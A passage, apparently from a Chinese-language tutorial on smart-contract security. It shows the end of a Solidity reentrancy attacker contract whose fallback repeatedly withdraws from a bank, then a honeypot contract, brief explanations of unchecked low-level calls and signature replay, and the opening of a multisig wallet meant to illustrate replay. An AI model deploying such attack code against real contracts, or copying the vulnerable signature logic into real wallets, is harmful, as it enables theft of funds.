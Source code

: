 ```solidity
    }

    fallback() external payable {
        if (address(bank).balance >= 1 ether) {
            bank.withdraw(1 ether);
        }
    }

    function attack() public payable {
        bank.deposit{value: 1 ether}();
        bank.withdraw(1 ether);
    }

    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

// Let's say this code is in a separate file so that others cannot read it.
contract HoneyPot {
    function log(
        address _caller,
        uint _amount,
        string memory _action
    ) public {
        if (equal(_action, "Withdraw")) {
            revert("It's a trap");
        }
    }

    // Function to compare strings using keccak256
    function equal(string memory _a, string memory _b) public pure returns (bool) {
        return keccak256(abi.encode(_a)) == keccak256(abi.encode(_b));
    }
}

```



### 未检查底层调用结果

`call` 这类底层调用的方式失败并不会发生回滚。因此，攻击者可以精心设计 gas，让底层调用回滚，而其他语句继续运行。

### 签名重放

一般而言，签名会和特定的交易或者消息绑定，但是为了业务逻辑自己设计的多重签名，可能会疏忽造成签名重复使用。例如下面的 `transfer` 函数，通过库合约恢复发送者地址，但是如果签名是可重用的，那么就会造成意外的取款行为。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma experimental ABIEncoderV2;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/b0cf6fbb7a70f31527f36579ad644e1cf12fdf4e/contracts/utils/cryptography/ECDSA.sol";

contract MultiSigWallet {
    using ECDSA for bytes32;

    address[2] public owners;

    constructor(address[2] memory _owners) payable {
        owners = _owners;
    }
```